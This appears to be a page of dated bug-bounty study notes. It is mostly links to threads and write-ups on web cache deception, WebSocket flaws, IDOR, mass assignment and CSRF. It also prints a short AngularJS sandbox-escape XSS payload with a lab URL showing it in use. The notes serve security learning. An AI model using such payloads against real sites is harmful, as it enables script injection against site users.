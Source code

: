 ## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_)
- [Learn365](https://github.com/harsh-bothra/learn365)
- [Session Puzzling Attack](https://twitter.com/harshbothra_/status/1350741817243918336?s=20)
- [Web Cache Deception Attack](https://twitter.com/harshbothra_/status/1350374481231970305?s=20)
- [Websocket Vuls Part -1](https://twitter.com/harshbothra_/status/1349363147023372290?s=20)
- [Websocket Vuls Part -2](https://twitter.com/harshbothra_/status/1349769962043236357?s=20)
- [Websocket Vuls Part -3](https://twitter.com/harshbothra_/status/1350109203671597056?s=20)

## Apple IDOR Vulnerability
- **[Apple IDOR via `X-Dsid`](https://twitter.com/samwcyo/status/1350025967331389442?s=20)**

## Tiny sandbox escape for AngularJS 1.2.24 - 1.2.29
Need a tiny sandbox escape for AngularJS 1.2.24 - 1.2.29? I think this is the shortest possible. 19 characters.
```js
{{[]."-alert`1`-"}}
````
**Example**
```text
https://portswigger-labs.net/xss/angularjs.php?type=reflected&csp=0&version=1.2.26&x={{[].%22-alert`1`-%22}}
```
[![img](https://pbs.twimg.com/media/Eryi6dEXEAEykzE?format=png&name=small)](https://twitter.com/PortSwiggerRes/status/1350134023016902657?s=20)

## Infosec Matter Bug Bounty Tips
- https://www.infosecmatter.com/bug-bounty-tips-1/
- https://www.infosecmatter.com/bug-bounty-tips-2-jun-30/
- https://www.infosecmatter.com/bug-bounty-tips-3-jul-21/
- https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/
- https://www.infosecmatter.com/bug-bounty-tips-5-aug-17/
- https://www.infosecmatter.com/bug-bounty-tips-6-sep-07/
- https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/
- https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/
- https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/
- https://www.infosecmatter.com/bug-bounty-tips-10-dec-24/

# 📅 19-Jan-2021

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 18
- [Mass Assignment Attack](https://twitter.com/harshbothra_/status/1351202886181646341?s=20)

## CSRF Disclosed Bug Bounty Reports
- [Reports](https://corneacristian.medium.com/top-25-csrf-bug-bounty-reports-ffb0b61afa55) 	
